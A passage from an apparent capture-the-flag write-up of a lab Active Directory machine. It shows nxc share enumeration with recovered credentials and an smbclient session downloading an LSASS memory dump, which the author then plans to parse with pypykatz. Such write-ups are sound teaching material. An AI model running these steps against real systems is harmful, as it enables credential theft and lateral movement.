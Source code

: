 We can see on the results that the new credentials are indeed valid.

## Accessing SMB Share forensic using the user audit2020
With the new credentials we can proceed to enumerate the user audit2020. Evil-WinRM didn't work but we can see that the user audit2020 has read access to the SMB Share forensic:
```shell
nxc smb 10.129.191.43 -u audit2020 -p Password123 --shares
```

```shell
SMB         10.129.191.43   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.129.191.43   445    DC01             [+] BLACKFIELD.local\audit2020:Password123 
SMB         10.129.191.43  445    DC01             [*] Enumerated shares
SMB         10.129.191.43   445    DC01             Share           Permissions     Remark
SMB         10.129.191.43   445    DC01             -----           -----------     ------
SMB         10.129.191.43   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.191.43   445    DC01             C$                              Default share
SMB         10.129.191.43   445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.129.191.43   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.191.43   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.191.43   445    DC01             profiles$       READ            
SMB         10.129.191.43   445    DC01             SYSVOL          READ            Logon server share
```
Let's proceed to enumerate the forensic SMB Share. Inside \memory_analysis we can find a lsass.zip file, which we can download using the get command:
```shell
smbclient \\\\10.129.191.43\\forensic -U "audit2020"
# Password for [WORKGROUP\audit2020]: Password123
smb: \> ls
  .                                   D        0  Sun Feb 23 08:03:16 2020
  ..                                  D        0  Sun Feb 23 08:03:16 2020
  commands_output                     D        0  Sun Feb 23 13:14:37 2020
  memory_analysis                     D        0  Thu May 28 16:28:33 2020
  tools                               D        0  Sun Feb 23 08:39:08 2020

smb: \> cd memory_analysis
smb: \memory_analysis\> ls
  .                                   D        0  Thu May 28 16:28:33 2020
  ..                                  D        0  Thu May 28 16:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 16:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 16:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 16:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 16:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 16:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 16:25:08 2020
  mmc.zip                             A 64288607  Thu May 28 16:25:25 2020
  RuntimeBroker.zip                   A 13332174  Thu May 28 16:26:24 2020
  ServerManager.zip                   A 131983313  Thu May 28 16:26:49 2020
  sihost.zip                          A 33141744  Thu May 28 16:27:00 2020
  smartscreen.zip                     A 33756344  Thu May 28 16:27:11 2020
  svchost.zip                         A 14408833  Thu May 28 16:27:19 2020
  taskhostw.zip                       A 34631412  Thu May 28 16:27:30 2020
  winlogon.zip                        A 14255089  Thu May 28 16:27:38 2020
  wlms.zip                            A  4067425  Thu May 28 16:27:44 2020
  WmiPrvSE.zip                        A 18303252  Thu May 28 16:27:53 2020

smb: \memory_analysis\> get lsass.zip
getting file \memory_analysis\lsass.zip of size 41936098 as lsass.zip (4088.8 KiloBytes/sec) (average 4088.8 KiloBytes/sec)
```
Now we can extract the lsass.zip file on Kali and use pypykatz to dump the contents: